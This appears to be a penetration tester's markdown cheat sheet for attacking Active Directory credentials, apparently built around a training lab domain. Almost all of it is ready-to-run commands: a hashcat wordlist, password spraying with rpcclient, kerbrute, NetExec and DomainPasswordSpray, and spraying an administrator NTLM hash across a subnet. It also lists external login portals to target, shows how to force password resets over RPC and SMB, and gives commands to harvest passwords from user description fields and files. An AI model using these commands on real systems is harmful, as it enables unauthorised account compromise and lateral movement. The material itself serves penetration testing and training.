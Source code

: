 ```yaml
---
tags:
  - Authenticated
  - Initial-Access
  - Lateral-Movement
  - Privilege-Escalation
  - Unauthenticated
  - AD
---
```

!!! alert "note"
	It is worth targeting high-value hosts such as `SQL` or `Microsoft Exchange` servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.
## Wordlist Generation
---
**Add likely words to a file (domain name, seasons, employees, etc).**
Use hashcat with ruleset to generate the alterations
```C
hashcat --force words.txt -r /usr/share/hashcat/rules/best64.rule --stdout > wordlist.txt
```
you should also prolly append an exclamation point to the words as well.
  
## Password Spraying
---
**From Linux**
---
```Python
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
```Python
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
```Python
nxc smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
```Python
nxc smb 172.16.5.5 -u avazquez -p Password123
```
Spray local admin hash around domain
```Python
nxc smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

!!! alert "note" 
	The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout. `Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`


**From Windows**
[https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.
```Python
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
```Python
Invoke-DomainPasswordSpray -UserList users.txt -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
## External Password Spraying
---
- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication
# Workarounds
---
“Password must be changed on next logon”
“Password_must_change”
You can try two things
```C
rpcclient -U <user> <IP>
rpcclient $> setuserinfo2 <user> 23 'Password123!'
```
```C
smbpasswd -U <user> -r <IP>
```
## Password in Description Field
---
Sensitive information such as account passwords are sometimes found in the user account Description or Notes fields and can be quickly enumerated using PowerView. For large domains, it is helpful to export this data to a CSV file to review offline.

**Remote**
```bash
nxc ldap <hostname> -u <user> -p <pass> -M get-desc-users
```
**Local**
```Bash
Import-Module powerview.ps1
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

## Passwords in files
___
```cmd-session
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```
